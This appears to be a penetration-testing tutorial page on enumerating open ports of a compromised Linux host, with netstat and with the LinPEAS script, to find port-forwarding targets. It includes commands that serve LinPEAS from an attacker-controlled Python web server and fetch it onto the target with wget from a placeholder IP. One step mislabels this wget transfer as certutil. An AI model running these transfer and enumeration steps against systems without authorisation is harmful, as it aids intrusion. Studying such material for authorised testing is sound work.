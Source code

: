 ```yaml
---
legal-banner: true
---
```


### **INTRODUCTION**

Before we start, we need to know exactly what it is that we are looking for.

1.  Local Address 0.0.0.0: The service is listening on all interfaces and will be visible locally, internally, and externally. If we find a service listening on 0.0.0.0 that was not visible externally on our nmap scan, this means the firewall is blocking inbound connections to this port. This is a port forwarding opportunity!
2.  Local Address 127.0.0.1: The service is only listening for connections locally from this host (localhost), not anywhere else. This is a port forwarding opportunity!
3.  Local Address 172.16.1.150:: The service is only listening for connections from the local network (internally). Only hosts on the local network can connect to this service. This is a port forwarding opportunity!

### **ENUMERATING OPEN PORTS – MANUAL METHOD**

1.  To enumerate open ports on a Linux host, we can simply use this one command:  
    `netstat -tulpn`  

    ![](../../../img/Linux-Environment/39.png)  

    ??? info "Tips & Tricks"

        To investigate an internal port, use `ps -ef | grep 3360` to find the process details.

### **ENUMERATING OPEN PORTS – AUTOMATED METHOD (LINPEAS)**

1.  If you don’t already have LINPEAS, you can get LINPEAS using the following command:  
    `wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh`  
    
    ![](../../../img/Linux-Environment/40.png)  
    
2.  Host the LINPEAS Script Using Python:  
    `python3 -m http.server 8000`  
    
    ![](../../../img/Linux-Environment/41.png)  
    
3.  Transfer the script to the target machine using certutil:  
    `wget http://[IP-ADRESS]:8000/linpeas.sh`  
    
    ![](../../../img/Linux-Environment/42.png)  
    
4.  Then, back on the target machine, we can use the following command to download and execute LinPEAS  
    
    ![](../../../img/Linux-Environment/43.png)  

    ??? info "NOTE"

        Scrolling down to the Network Information > Active Ports, we can see that it’s the same as the output from netstat, which is actually what LinPEAS uses to pull this info for us. 